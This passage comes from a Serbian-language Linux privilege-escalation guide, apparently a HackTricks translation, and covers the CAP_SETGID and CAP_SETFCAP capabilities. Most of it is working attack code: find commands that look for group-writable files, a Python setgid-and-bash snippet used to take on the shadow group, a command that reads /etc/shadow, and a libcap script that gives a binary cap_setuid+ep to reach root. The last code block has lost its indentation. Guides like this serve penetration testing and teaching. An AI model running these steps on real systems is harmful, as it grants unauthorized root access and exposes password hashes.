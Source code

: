 ```bash
#Find every file writable by a group
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file writable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file readable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```

Jednom kada pronađete datoteku koju možete zloupotrebiti (čitanjem ili pisanjem) kako biste povećali privilegije, možete **dobiti shell koji se predstavlja kao interesantna grupa** pomoću:

```python
import os
os.setgid(42)
os.system("/bin/bash")
```

U ovom slučaju grupa shadow je preuzeta kako biste mogli čitati datoteku `/etc/shadow`:

```bash
cat /etc/shadow
```

Ako je instaliran **docker**, mogli biste **preuzeti identitet** **docker grupe** i zloupotrebiti je za komunikaciju sa [**docker socket-om** i eskalaciju privilegija](./#writable-docker-socket).

## CAP\_SETFCAP

**Ovo znači da je moguće postaviti sposobnosti na datoteke i procese**

**Primer sa binarnom datotekom**

Ako python ima ovu **sposobnost**, veoma lako je zloupotrebiti je za eskalaciju privilegija do root-a:

{% code title="setcapability.py" %}
```python
import ctypes, sys

#Load needed library
#You can find which library you need to load checking the libraries of local setcap binary
# ldd /sbin/setcap
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary
cap = 'cap_setuid+ep'
path = sys.argv[1]
print(path)
cap_t = libcap.cap_from_text(cap)
status = libcap.cap_set_file(path,cap_t)

if(status == 0):
print (cap + " was successfully added to " + path)
```
{% endcode %}
